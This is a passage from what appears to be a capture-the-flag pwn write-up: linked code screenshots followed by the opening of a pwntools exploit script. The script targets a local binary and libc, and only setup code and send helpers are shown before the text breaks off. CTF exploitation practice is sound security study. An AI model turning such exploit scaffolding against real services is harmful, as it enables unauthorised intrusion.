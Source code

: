 [![](assets/1698893341-c8e366e00de5292c6656b5eb29388803.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121932-dd2661bc-73b6-1.png)

[![](assets/1698893341-f116ab9480ec76b68424d3ff31ed0996.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121936-df4df284-73b6-1.png)

[![](assets/1698893341-a10a02f43ac3c38de851181ab6a14032.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121939-e1430d2c-73b6-1.png)

[![](assets/1698893341-6021a435a03f5817a714d2e062960381.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026121945-e516c92a-73b6-1.png)

‍

###### exp：

```plain
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64

context.os = 'linux'
context.arch = 'amd64'
# context.arch = 'i386'
context.log_level = "debug"

name = './pwn'
ldfile = './ld-linux-x86-64.so.2'
libcso = './libc.so.6'
libc = ELF(libcso)
elf = ELF(name)

debug = 0
if debug:
    p = remote('127.0.0.1',8000)
else:
    #p = process([ldfile, name], env={"LD_PRELOAD": libcso})
    p = process(name)

s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
```